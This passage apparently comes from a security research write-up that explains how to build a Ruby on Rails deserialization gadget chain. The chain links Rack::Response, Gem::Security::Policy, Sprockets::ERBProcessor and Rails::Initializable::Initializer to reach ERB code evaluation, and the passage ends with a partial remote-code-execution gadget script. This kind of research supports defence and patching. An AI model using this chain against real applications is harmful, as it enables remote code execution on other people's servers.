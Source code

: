 `to_s` is an alias to `@name`. If we set `@name` on `Gem::Security::Policy` instance then `to_s` method will return `@name` itself.  This can be represented in ruby as follows:

```ruby
c = Rack::Response.allocate
a=Gem::Security::Policy.allocate
a.instance_variable_set(:@name,{'key' => 'value'})
b=Set.new([a])
c.instance_variable_set(:@body, b)
c.instance_variable_set(:@writer, Sprockets::ERBProcessor.allocate)
```

This time, `Sprockets::ERBProcessor.call({'key' => 'value'})` will be called which is exactly what we needed.

Now all that was left, was to craft our hash in such a way such that code flows smoothly to dangerous sink. Most of it is as straightforward as setting a few keys in our `input` hash. However, at line `[X]`, we need to set `environment` key in our input hash to such as an object such that calling `context_class` and finally executing the constructor again with our controlled argument doesn't error out. 

```ruby
  def call(input)
    ...
    context = input[:environment].context_class.new(input) # [X]
    ...
    
    # calling "result" method on an ERB instance results in ERB Code evaluation
    data = engine.result(context.instance_eval('binding'))
    ...
end
```

For which, we can utilize [`Rails::Initializable::Initializer` class](https://github.com/rails/rails/blob/main/railties/lib/rails/initializable.rb#L40-L42) which has `context_class` method whose return value we can control (by setting `@context` instance variable).

```
...
x=Rails::Initializable::Initializer.allocate
x.instance_variable_set(:@context,Sprockets::Context.allocate)
...
```

setting `environment` key to `x` will result in calling `Sprockets::Context.new(input)` which afterwards will continue the execution without any exceptions.

Another small requirement was, that [constructor of `Sprockets::Context` class](https://github.com/rails/sprockets/blob/master/lib/sprockets/context.rb#L42-L55) also required `metadata` key to be set.

### Latest Rails Remote Code Execution Gadget

```ruby
require 'rails/all'
require 'base64'
Gem::SpecFetcher
Gem::Installer

require 'sprockets'
class Gem::Package::TarReader
end

d = Rack::Response.allocate
d.instance_variable_set(:@buffered, false)

d0=Rails::Initializable::Initializer.allocate
d0.instance_variable_set(:@context,Sprockets::Context.allocate)

```